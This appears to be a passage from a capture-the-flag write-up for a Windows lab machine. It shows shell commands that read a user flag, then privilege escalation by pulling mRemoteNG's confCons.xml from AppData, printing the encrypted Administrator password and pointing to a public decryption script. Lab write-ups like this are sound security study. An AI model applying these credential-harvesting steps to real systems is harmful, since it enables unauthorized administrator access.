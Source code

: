 ```
l4mpje@BASTION C:\Users\L4mpje\Desktop>dir                                                                           
 Volume in drive C has no label.                                                                                     
 Volume Serial Number is 0CB3-C487                                                                                   
                                                                                                                     
 Directory of C:\Users\L4mpje\Desktop                                                                                
                                                                                                                     
22-02-2019  15:27    <DIR>          .                                                                                
22-02-2019  15:27    <DIR>          ..                                                                               
23-02-2019  09:07                32 user.txt                                                                         
               1 File(s)             32 bytes                                                                        
               2 Dir(s)  11.085.467.648 bytes free                                                                   
                                                                                                                     
l4mpje@BASTION C:\Users\L4mpje\Desktop>type user.txt                                                                 
<Redacted user flag>  
```

### Privilege Escalation to root

Navigating to C:\Program Files (x86), we are able to find a mRemoteNG program. Looking up exploits for mRemoteNG, we are able to find a tutorial [here](https://vk9-sec.com/exploiting-mremoteng/)

Firstly, we will have to extract the confCons.xml file from the C:\Users\L4mpje\AppData\Roaming\mRemoteNG directory. The confCons.xml file contains the encrypted password for all the users.

```
l4mpje@BASTION C:\Program Files (x86)\mRemoteNG>cd %appdata%                                                    
l4mpje@BASTION C:\Users\L4mpje\AppData\Roaming>cd mRemoteNG                                                    
l4mpje@BASTION C:\Users\L4mpje\AppData\Roaming\mRemoteNG>type confCons.xml 
```

Inspecting the confCons.xml file, we are able to obtain the adminstrator password, but the password is currently encrypted.

```
Username="Administrator" Domain="" Password="aEWNFV5uGcjUHF0uS17QTdT9kVqtKCPeoC0Nw5dmaPFjNQ2kt/zO5xDqE4HdVmHAowV
RdC7emf7lWWA10dQKiw=="
```

Using the python script from (here)[https://github.com/haseebT/mRemoteNG-Decrypt], we are able to decrypt the password.
